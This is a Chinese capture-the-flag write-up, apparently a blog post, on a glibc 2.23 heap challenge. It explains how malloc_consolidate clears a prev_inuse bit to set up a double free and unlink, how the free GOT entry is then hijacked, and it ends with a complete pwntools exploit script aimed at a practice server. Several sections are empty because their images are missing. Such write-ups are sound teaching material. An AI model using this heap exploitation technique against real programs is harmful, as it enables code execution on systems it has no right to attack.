








## 总结:

通过本题的学习，知道了**malloc consolidate函数可以让fast bin的堆块进行合并，然后放到unsorted bin，同时将下一个堆块的prev inuse位置空**。通过这一点给了我们利用unlink的机会,如果在2.23下我们可以利用UAF，那么即使没有溢出，也可以利用malloc consolidate让下一个堆块的prev inuse置空，最后在被合并的堆块里伪造一个fake chunk即可触发unlink。


## 保护策略:




## 漏洞分析:



存在UAF漏洞，但是这里free后去将一个bss段的值给置空了。而这个值被置空决定了后面的show函数和edit函数没法去利用UAF这个点。

## 利用思路:

而这道题本身只能申请三种不同大小的堆块，并且每种堆块只能存在一个。

因为三种堆块里两种堆块都比较大，释放掉都能进入unsorted bin，同时没有开PIE保护并且可以篡改函数的got表，因此我们尝试往unlink的方向上考虑。

不过unlink的话我们需要控制堆块的prev inuse位和prev size位，prev size位好说，但是prev inuse位我们通常通过溢出等方式来篡改，而这道题没有溢出仅仅是存在一个被限制的UAF漏洞。

下面我们来说一下如何利用该UAF来完成unlink以及double free。

这个利用的核心就是触发malloc_consolidate函数，将fastbin中的堆块取出来进行合并放到unsorted bin中，同时将下一个堆块的prev inuse位置零。因此我们利用这一点来篡改堆块的prev inuse位，而申请末尾的堆块字节数为8的话，这样就可以控制prev size位了，从而完成unlink的前提。

**补充:在glibc2.23中我们申请堆块时，当遍历了fastbin后没有找到需要的堆块，并且需要的堆块大小还位于large bin的范围里(也就是不属于small bin的范围)就会去调用malloc_consolidate函数来整理下零散的堆块碎片。**

> 布局如下:
> add 0x28
> add 0xFA0
>
> delete 0   #此时堆块进入fast bin
>
> add 0x61A80  #因为该堆块非常大，其size属于large bin的范围 于是此时触发malloc consolidate，将fastbin中的堆块放到small bin中
>
> delete 0  #2.23中的针对double free的检测是去判断bins里的第一个地址是否为当前释放的堆块地址，而原本的0号堆块已经进入了small bin中，所以这里可以成功的double free
>
> add 0x28 #将0号堆块申请出来，去往里面写入0x28的数据，此时我们覆盖到下一个堆块的prev size位，而prev inuse位在malloc consolidate的时候就被置为了0，从而完成了unlink前的布局
>
> delete 1#触发unlink

## 调试过程:

上面的调试过程如下:















之后触发了unlink后，就是一个常规劫持got表的操作，改free函数的got为puts的plt，然后泄露libc，再改free函数的got为system地址。

## EXP:

[tools-函数库 | ZIKH26's Blog](https://zikh26.github.io/posts/ad411136.html)

```py
from tools import *
context.log_level='debug'
p,e,libc=load("a","node4.buuoj.cn:28037")


def add(type,content):
   p.sendlineafter('3. Renew secret\n','1')
   p.sendlineafter('What secret do you want to keep?',str(type))
   p.sendafter('Tell me your secret:',content)
 
def delete(type):
   p.sendlineafter('3. Renew secret\n','2')
   p.sendlineafter('Which Secret do you want to wipe?',str(type))
 
def edit(type,content):
   p.sendlineafter('3. Renew secret\n','3')
   p.sendlineafter('Which Secret do you want to renew?',str(type))
   p.sendafter('Tell me your secret:',content)


add(1,'a')
add(2,'b')
debug(p,0x400E3C,0x400E48,0x400E59,0x400BAA,0x400C81,0x400CB7) 
delete(1)
add(3,'ssss')   

delete(1)
ptr=0x6020d0
payload=p64(0)+p64(0x21)+p64(ptr-0x18)+p64(ptr-0x10)+p64(0x20)
add(1,payload)
delete(2)

edit(1,b'b'*0x8+p64(e.got['atoi'])*2+p64(e.got['free']-8))

edit(1,b'/bin/sh\x00'+p64(e.plt['puts']))

delete(2)


atoi_addr=recv_libc()
sys_addr,bin_sh_addr=local_search('atoi',atoi_addr,libc)
edit(1,b'/bin/sh\x00'+p64(sys_addr))
delete(1)
p.interactive()
```

